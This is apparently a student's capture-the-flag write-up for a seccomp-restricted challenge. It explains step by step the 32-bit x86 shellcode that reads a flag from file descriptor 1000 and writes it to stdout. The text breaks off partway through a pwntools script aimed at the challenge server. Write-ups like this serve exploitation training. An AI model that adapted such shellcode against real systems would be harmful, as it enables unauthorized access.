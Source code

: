 simple
===========================
Flag: FLAG{}
General overview of problems faced
-------------------------------------
- Trying to overwrite return address: initially I misinterpreted the problem and was trying to get the program to return to my shellcode but then I realised this was much simpler and the program makes a direct call to the shellcode.


Script/Command used (Writeup)
------------------
As the output program says, the flag is open on fd 1000 but we're told we can only read and write. `strace` reveals `prctl(PR_SET_SECCOMP, SECCOMP_MODE_STRICT)` which according the manpages only allows  `read`, `write` and `exit` syscalls, so this explains it.
In high level code what we need to do is this:
```
bytes_read = read(1000, void *buf, 255);
write(1, const void *buf, bytes_read)
```
Starting off, we read 255 bytes (arbitrary choice of number) from fd 1000 and store it in some buffer. For simplicity we'll use esp as the pointer to our "buffer". To do this in assembly we'll first just do some prep work. First we'll increase the stack by 1000 bytes by adjusting esp, and we'll reset some of the registers since we'll end up using eax, ebx, ecx and edx. We'll sort out ecx later but for now we have this:
```
sub esp, 0x3E8
xor eax, eax
xor ebx, ebx
xor edx, edx
```
Next we'll load 0x3 into eax since that is the syscall number for `read`. Then we set our parameters fd, buffer, and num_bytes in ebx, ecx, edx respectively. Since we set eax, ebx and edx to zero before we can just set values in the lower part of the register (like al). This doesn't make a difference here but its practice for future challenges when we need smaller shellcode. Once the registers are set we can run the syscall:
```
mov al, 0x3
mov bx, 0x3E8
mov ecx, esp
mov dl, 0xFF
int 0x80
```
Now the number of bytes read in will be stored in eax. We need this value in edx since this is the 3rd parameter of the `write` syscall, so we swap edx and eax. Then we set eax to 0x4 (syscall number for `write`). No changes need to be made to ecx since it will still contain esp which is the pointer to the buffer.
```
xchg eax, edx
mov al, 0x4
mov bx, 0x1
int 0x80
```
And then remember to restore the stack
```
add esp, 0x3E8
```
In full this is what the exploit will look like:
```
from pwn import *

p = remote('plsdonthaq.me', 3001)

shellcode = asm(""" sub esp, 0x3E8
                    xor eax, eax
                    xor ebx, ebx
```